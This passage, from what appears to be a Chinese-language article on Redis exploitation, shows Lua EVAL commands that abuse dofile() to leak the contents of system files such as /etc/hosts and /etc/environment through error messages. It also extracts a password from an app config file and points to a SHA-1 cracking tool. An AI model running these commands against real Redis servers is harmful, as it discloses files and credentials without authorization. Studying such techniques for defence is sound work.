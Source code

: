 ```
-ERR Error running script (call to f_274aea5728cae2627f7aac34e466835e7ec570d2): /home/ubuntu/.bashrc:2: unexpected symbol near '#'

```

如果Lua脚本有语法错误或者尝试设置全局变量时，会产生报错信息，可以获得一些我们想要的信息

```
EVAL “return dofile('/etc/issue')” 0
-ERR Error running script (call to f_8a4872e08ffe0c2c5eda1751de819afe587ef07a): /etc/issue:1: malformed number near '12.04.4'

EVAL “return dofile('/etc/lsb-release')” 0
-ERR Error running script (call to f_d486d29ccf27cca592a28676eba9fa49c0a02f08): /etc/lsb-release:1: Script attempted to access unexisting global variable 'Ubuntu'

EVAL “return dofile('/etc/hosts')” 0
-ERR Error running script (call to f_1c25ec3da3cade16a36d3873a44663df284f4f57): /etc/hosts:1: malformed number near '127.0.0.1'

```

还有一种情况，但是并不是很常见，就是调用dofile()这个函数去处理有效的Lua文件，然后返回提前定义好的值，假设这里有一个文件/var/data/app/db.conf

```
db = {
   login  = 'john.doe',
   passwd = 'Uber31337',
}

```

通过Lua脚本得到passwd的值

```
EVAL dofile('/var/data/app/db.conf');return(db.passwd); 0 
+OK Uber31337

```

这个也可以获取Unix标准文件的一些信息：

```
EVAL “dofile('/etc/environment');return(PATH);” 0       
+OK     /usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games
EVAL “dofile('/home/ubuntu/.selected_editor');return(SELECTED_EDITOR);” 0
+OK /usr/bin/nano

```

0x07 暴力破解
---------

* * *

Redis提供一个redis.sha1hex()函数，可以被Lua脚本调用，所以还可以通过Redis服务器进行SHA-1的破解，相关代码在adam_baldwin 的GitHub上(https://github.com/evilpacket/redis-sha-crack)，相关原理的描述在 (http://fr.slideshare.net/evilpacket/ev1lsha-misadventures-in-the-land-of-lua需要翻墙访问)
